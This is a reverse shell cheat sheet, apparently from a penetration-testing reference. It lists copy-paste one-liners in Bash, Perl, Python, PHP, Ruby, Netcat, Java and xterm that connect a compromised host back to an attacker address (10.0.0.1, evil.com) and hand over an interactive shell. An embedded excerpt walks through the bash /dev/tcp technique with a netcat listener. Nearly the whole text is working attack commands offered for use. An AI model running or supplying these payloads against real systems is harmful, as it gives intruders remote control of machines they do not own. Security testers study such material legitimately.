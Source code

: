 # Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
## Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
#### Version taken from the linek Site


When we compromise a machine we often need to provide ourselves with a user friendly access to the system. This is where command shells come into place. The typical shell consists of a generic network client, typically netcat, listening on a remote port which pipes output into something like bash or any other command shell. Another type of shell is the reverse shell which consists of a generic network client, again something like netcat, connecting to the attacker's machine and piping input to bash. Most of the time, the attacker will use netcat, because this tool can be easily found on most system or easily compiled from source if required.

Although netcat is very useful, and you may have to use it in most cases, here is a simple technique which emulates what netcat does but it relies on bash only. Let's see how.

In step one we start a listening service on our box. We can use netcat, or whatever you might have at hand.
```
$ nc -l -p 8080 -vvv
```

On the target we have to perform some bash-fu. We will create a new descriptor which is assigned to a network node. Then we will read and write to that descriptor.
```
$ exec 5<>/dev/tcp/evil.com/8080
$ cat <&5 | while read line; do $line 2>&5 >&5; done
```

There you go. Now everything we type in our local listening server will get executed on the target and the output of the commands will be piped back. Keep in mind that we don't use any 3rd-party tools on the target but its default shell. This technique comes handy in many situations and it leaves very small footprint on the targeted system.


## PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

This was tested under Linux / Python 2.7:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
## Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```bash
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

>  [Untested submission from anonymous reader]
>  xterm
>  
>  One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
>  
>  xterm -display 10.0.0.1:1
>  
>  To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
>  
>  Xnest :1
>  
>  You’ll need to authorise the target to connect to you (command also run on your host):
>  
>  xhost +targetip
